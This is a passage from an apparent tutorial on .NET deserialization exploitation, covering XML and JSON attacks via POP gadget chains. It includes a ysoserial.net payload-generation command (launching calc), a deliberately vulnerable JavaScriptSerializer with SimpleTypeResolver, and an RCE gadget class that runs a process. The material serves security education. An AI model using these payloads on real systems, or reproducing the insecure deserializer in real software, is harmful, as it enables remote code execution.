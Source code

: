 However, it is possible to exploit this function chaining POP gadgets. To generate a valid payload, in this case, we can use `ysoserial.net`:

```bash
$ ysoserial-net -g ObjectDataProvider -f XmlSerializer -c "calc" -o raw
```

**JSON**

In their reasearch, [Firday the 13th, JSON Attacks](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf), Alvaro Muñoz and Oleksandr Mirosh explained how it was possible to apply similar methods seen for JAVA JSON deserialization to exploit .NET JSON deserializtion. The research is extremely accurate, and points out a list of libraries affected by this vulnerability. As such, I won't cover in details every library, but focus more on explaining that no concrete difference exists between JSON and XML/Binary deserialization in terms of exploitation.

The research states that, in order to successfully exploit JSON deserialization, the following conditions must be satisfied:

1. Attacker can control type of reconstructed objects [Same as binary/xml]
    * Can specify Type
        + _type, $type, class, classname, javaClass, ..., etc.
    * Library loads and instantiate Type
2. Library/GC will call methods on reconstructed objects [Setter/Getter/Constructors/Destructors, same as for binary/xml]
3. There are gadget chains starting on method executed upon/after reconstruction [Visibility constraint, same as for binary/xml]

As highlighted, there is no big difference from the constraints we've seen so far.

In order to show that, we'll take as example `JavaScriptSerializer`. The reason I love pwning this kind of serializer is the fact that it is not vulnerable by itself. It becomes vulnerable if used in combination with `SimpleTypeResolver`.
To explain what I'm saying, let's consider the following vulnerable example:

```csharp
public static void jsonRCEDeserial(string filename)
{
    filename += ".json";
    // Vulnerable use of JavaScriptSerializer
    JavaScriptSerializer serializer = new JavaScriptSerializer(new SimpleTypeResolver());
    var stream = new FileStream(filename, FileMode.Open, FileAccess.Read);
    var reader = new StreamReader(stream);
    var desert = serializer.Deserialize<Desert>(reader.ReadToEnd());
    reader.Close();
    stream.Close();
}

[Serializable]
public class RCE 
{
    private String _cmd;
    public String cmd
    {
        get { return _cmd; }
        set
        {
            _cmd = value;
            Run();
        }
    }

    public void Run()
    {
        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = _cmd;
        p.Start();
        p.Dispose();
```